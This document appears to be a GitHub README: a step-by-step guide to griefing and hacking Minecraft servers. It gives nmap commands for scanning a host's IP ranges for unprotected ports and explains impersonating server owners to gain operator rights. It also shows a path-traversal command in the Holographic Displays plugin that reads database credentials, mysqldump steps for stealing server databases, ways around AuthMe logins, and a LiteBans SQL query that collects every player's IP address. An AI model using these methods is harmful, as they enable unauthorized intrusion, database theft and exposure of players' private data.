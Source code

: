 # Frozen-Minecraft-Griffing-30-method-Server-
                                                                            
																			MINECRAFT SERVER GRIEFING/HACKING By ItsJokerz_ / FrozenCode
																			
-------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------

So first you wanna do is to buy Linux vps (ubuntu,debian,CentOS anything but needs to be based on linux). I recommend using bungeecloud.org 1$ vps.
You will be using it only for nmap scanning.
Download mobaxterm is best SSH client to connect to the VPS. (FTP & SSH in one tool).
So when u buy install nmap on it (Write on vps: apt-get install nmap) its important cause you will use that tool to scan ports and ipranges of minecraft OVH host.

-------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------

PORT SCANNING METHOD:

Go to this site: https://ipinfo.io/AS16276 (ipv4 ranges). Now you will see big shit of ip ranges. What u need to do is to choose 1 for example I will be choosing 149.202.*.* one. Keep in mind only first 2 ranges are important,example (149.202,37.59,157.123,164.132.....)
Now when u install nmap use this command for scanning. nmap -p 25000-30000 -oN scanresult.txt --open -A -T5 -Pn 149.202.(any number between 0-255) .0-255. (example 149.202.120.0-255) hit enter and wait for scan to finish. (It takes some time) The scanresult.txt will be save in ur root directory.
So when ur scan is finish you will see bunch of ports. Now launch ur minecraft and download skillclient 1.8 from skillclient.com. Enable Bungeehack and try each ip and port manually in direct conect. If you got luck you can find subservers of big server. Like (IP:PORT)
For example I found lokapsos.com (300 players on 149.202. range back in the days) (PORTS ARE MODES ON BUNGEE! hopefully unprotected) So when u join look for /pl and scoreboard (scoreboard usually gives u real ip of server,then search that ip on google and find owner, join the server with owner nick, and do /op yournick then join with your nick on real bungee ip of server and join mode that you found trought bungee. 
And woala you are opped. 
If server is premium. I mean bungee ip is premium for example mineplex.com then go to alts mannager in skillclient and DISABLE offline UUID on alt.And join port you found and op yourself.
Next bugs you can use are UUID spoof (search on yt. to explain here (but its only used when u found prelobby/authlobby or lobby port of a server, mostly patched))

** My Personal Suggestions: **

THERE ARE 2 WAYS OF SCANNING: IP RANGE SCANNING AND IP SCANNING:
----------------------------------------------------------------

:IP RANGE IS TO SCAN A LOT OF IPS AND IF YOU ARE LUCKY YOU FIND DIFFERENT SERVERS'S GAMEMODES:
 On nmap would be like (Example IP range) 0.0.0.* (It would scan all ips from 0.0.0.0 to 0.0.0.255) it will take a bit more but, it will give you more servers. (A list with a lot of ip ranges on the other txt file!)
 
:IP SCANNING: SCANS JUST THE IP THAT YOU WANT TO GRIEF:
 You have just add the ip of the server in nmap without changing anything, lower posibilities of griefing it but less time consuming.


If you want to scan fast and get results:

Use on nmap this command : 
nmap -p 1-20,24-50,100,200,300,400,500,600,700,800,900,777,1000-1010,2000-2020,12345,25500-25600,10001-10020,20001-20020,30000-30005,40001-40010,50001-50010,60001-60010 -T5 -v --open -A -oN shortscan.txt (IP or range of ips)

-------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------

If you want to scan a server like HolyHCF. Scan the bungee ip on nmap with a simple command like this:
nmap -p 1-65535 -T4 -A -v (ServerIP/Domain) ---> In this case it would be like this ---> nmap -p 1-65535 -T4 -A --open -v holyh.cf | And hit enter and wait for open ports and try to join them with SkillClient!
                           *(MOST SERVER HAVE THEIR GAMEMODES AN IP DIFERENT THAN THE MAIN SERVER BUNGEECORD IP, SO THIS WILL WORK ONLY IF YOU ARE LUCKY)*

MYSQL Getting:
---------------------------

So how to get mysql database ? Well you need to have op on the server and server must be running Holographic displays plugin 2.1.* or 2.2* (with newest version exploit won't work.)
Issue this command. /hd create a then /hd readtext a ../PermissionEx/config.yml, basically u are opening root directory trough holographic displays plugin. Just use common sense cause most of permissions plugins are connected to mysql.
Example of how it looks when issued:  https://i.imgur.com/Wl40u93.png  https://i.imgur.com/ALWGvZJ.png just example of two servers i hacked before. With those just install sql server in linux and connect using those. And thats it.

This works for reading other plugins config!
Just use /hd readtext a ../(PluginName)/config.yml and it will appear!


                                                                                             *OP method using this!!: *
																							 
I recommend making a localhost with the same permissions plugin and adding the same info you got from the server (sql info / password), so if you pex yourself from your localhost, it will apply to the server's mysql too, so you will have perms
on the server you griefed just from your localhost console, as it were the same console!
 
 
                                                                             How to dump and download the databases of the server?

                                                                     Download mysql to your vps (ON vps write: 'apt-get install mysql-server')
When you have it installed, write :  ' mysql -u (user from the info you got) -h (ip you got) -p ' Hit enter
Then it will ask for a password: (paste the password you got from the hologram)
And boom, you are inside the server's MYSQL!

to get the databases, write: ' show databases; ' and it will tell you all databases, to download them, write: ' mysqldump -u (same user) -p -h (same ip u got) (here u write the database name u want to download) > dump.sql '
Now you wait some time... After that the database will be downloaded on your vps's root directory, download it and read it with some text processor like notepad++.


                                    So short version to summary all of this:  scan ipranges/ip > find ports > try them > op urself >grief server > dump mysql.
									
									
									
									
									
									
									
--------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------
                                                                                               OTHER EXPLOITS:

                                                                                                AUTHME BYPASS:

It depends on the server and most of them are patched but you have to try them!... Some ways to do it are:

Use commands like: /lobby , /hub , /server , /connect , /hcf , /practice , /kitmap (Use them on auth-lobby)

Other ways are using cheats like:

Using FREECAM to water portals, or regions that teleport to the main hub, then disable it and it will teleport to de hub, bypassing authme!
Using FLY to go to Regions that teleport to main hub.
Using Teleport of skillclient to do the same thing as i said before.
 
                                                                              GETTING ALL SERVER'S IP DATABASE FROM LITEBANS:

If a server has the plugin called LiteBans and you have OP, you can get EVERYONE Who entered the server's IP.

Warning: To do it you need to be on a vanilla minecraft or optifine, not skillclient or other modded client!

So to do it you have to use this command: ' /litebans sqlexec select * from {history} '
After that, go to your \AppData\Roaming\.minecraft\logs and on latest.txt it should be a list with all the ips and nicks!


